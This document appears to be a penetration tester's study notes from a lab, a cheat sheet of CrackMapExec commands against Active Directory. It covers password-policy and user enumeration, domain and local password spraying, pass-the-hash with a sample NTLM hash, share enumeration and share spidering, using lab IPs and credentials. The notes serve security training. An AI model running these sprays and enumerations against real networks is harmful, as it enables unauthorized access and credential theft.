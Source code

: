 -- -
Can be used outside of an AD context but generally used in an AD context. [wiki]
#### Enumerating AD Password Policy
Requires you have valid credentials first.
```bash
crackmapexec smb <ip> -u <user> -p <passwd> --pass-pol
crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol
```

^016942

#### Enumerating valid domain users w/o credentials
```bash
crackmapexec smb <dc ip> --users
crackmapexec smb 172.16.5.5 --users
```

^99029f

#### Password Spray
###### AD Domain Password spray
Password spray domain accounts
```bash
# Use grep to filter out only successful attempts
# generic domain spray
sudo crackmapexec smb <dc ip> -u <userlist> -p <passwd> | grep +

# specific domain spray
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +

# verify found credentials example:
sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123
```

^4d0ec2

###### Local account password spray
Password spray local accounts on the systems in the CIDR range. Local accounts **not** domain accounts. 
```bash
# Note: This method is LOUD, so don't use if you need to be evasive
# generic w/ hash
sudo crackmapexec smb --local-auth <cidr range> -u <username> -H <passwd hash> | grep +

#generic w/ password
sudo crackmapexec smb --local-auth <cidr range> -u <username> -p <passwd> | grep +

# specific w/ hash
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

^cc2b19
###### Domain user enumeration w/ creds
```bash
sudo crackmapexe smb <dc ip> -u <user> -p <password> --users
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users
```

^617bfd

###### Domain group enumeration w/ creds
```bash
sudo crackmapexec smb <dc ip> -u <user> -p <password> --groups
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups
```

^3735b8

###### Logged-on Users enumeration w/ creds
```bash
# See who is logged onto a target host in the domain
sudo crackmapexec smb <target ip> -u <user> -p <passwd> --loggedon-users
sudo crackmapexec smb 172.16.5.130 -u forend -p Klmcargo2 --loggedon-users
```

^1fbea2

###### Available shares, and permissions on shares w/ creds
```bash
# enumerate available shares on target host
# also shows the level of permissions you have for each share
sudo crackmapexec smb <target ip> -u <user> -p <passwd> --shares
```

^2f2d3b

###### Spider shares for content
```bash
# Enummerates the files on a specified share if user has Read access
sudo crackmapexec smb <target ip> -u <user> -p <passwd> -M spider_plus --share '<share name>'
```

^c5e901
